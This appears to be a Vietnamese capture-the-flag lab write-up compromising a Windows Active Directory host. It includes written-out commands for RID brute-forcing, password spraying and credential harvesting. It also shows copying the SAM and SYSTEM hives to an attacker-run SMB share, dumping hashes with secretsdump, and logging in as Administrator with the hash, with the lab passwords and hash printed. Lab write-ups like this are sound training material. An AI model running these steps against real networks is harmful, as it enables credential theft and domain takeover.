## Task 1


Chúng ta sử dụng công cụ smbclient để tương tác


Chúng ta vào thử HR và DEV thì chỉ có HR vào được


> HR
## Task 2


> Notice from HR.txt
## Task 3


Thực hiện download và đọc nội dung file
```bash
smbclient //10.129.231.149/HR -N -c 'get "Notice from HR.txt"'
cat "Notice from HR.txt"
```
Chúng ta tìm được mật khẩu mặc định
```
Cicada$M6Corpb*@Lp#nZp!8
```
Sử dụng thử account Guest để brute rid
```bash
netexec smb 10.129.231.149 -u 'guest' -p '' --rid-brute
```

Chúng ta thu được một số user như sau
```
john.smoulder
sarah.dantelia
michael.wrightson
david.orelious
emily.oscars
```
Thực hiện spray password
```bash
netexec smb 10.129.231.149 -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-success
```
Chúng ta tìm được một user


> michael.wrightson
## Task 4


Lúc này chúng ta sử dụng account thu được để tìm kiếm sâu vào AD
```bash
netexec ldap 10.129.231.149 -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' -M get-desc-users
```

Chúng ta thu được thêm account
```
david.orelious \ aRt$Lp#7t*VQ!3
```
## Task 5


Bây giờ dùng account thu thập được enum lại smb /dev
```bash
netexec smb 10.129.231.149 -u 'david.orelious' -p 'aRt$Lp#7t*VQ!3' --share DEV -M spider_plus
```
Chúng ta nhận được kết quả


> Backup_script.ps1
## Task 6


Tiến hành download thử file `Backup_script.ps1` để đọc nội dung


Chúng ta lại thu được một account 
```
emily.oscars \ Q!3@Lp#M6b*7t*Vt
```
## User Flag
Thử đăng nhập bằng account thu được
```bash
evil-winrm -i 10.129.231.149 -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
```
Thu được user flag

## Task 8


Kiểm tra quyền thì user này có 2 điểm cần chú ý


### SeBackupPrivilege
Quyền này cho phép **đọc BẤT KỲ file nào** trên hệ thống, bỏ qua toàn bộ ACL/permission. Nghĩa là chúng ta có thể:
- Đọc `root.txt` của Administrator
- Dump **SAM + SYSTEM** registry hives → extract hash của tất cả users
- Dump **NTDS.dit** → toàn bộ hash domain

> SeBackupPrivilege

### SeRestorePrivilege
Cho phép **ghi BẤT KỲ file nào** — có thể ghi đè system files, DLL hijacking, hoặc thay đổi registry.
Ưu tiên khai thác **SeBackupPrivilege** trước vì đơn giản và đủ để lấy flag + domain hash.
## Task 9


Tuy nhiên file quá lớn nên phải dựng smb server để lấy system về
```bash
impacket-smbserver share . -smb2support -user test -password test
```
Trên target thực hiện đưa về smb
```
net use \\10.10.14.245\share /user:test test
reg save HKLM\SAM SAM
reg save HKLM\SYSTEM SYSTEM
copy SYSTEM \\10.10.14.245\share\
copy SAM \\10.10.14.245\share\
```
Sau đó thực hiện dump để thu hash của Administrator 
```bash
impacket-secretsdump -sam SAM -system SYSTEM LOCAL
```

## Root Flag
Sử dụng hash của admin để winrm để lấy root flag
```bash
evil-winrm -i 10.129.231.149 -u 'Administrator' -H '2b87e7c93a3e8a0ea4a581937016f341'
```


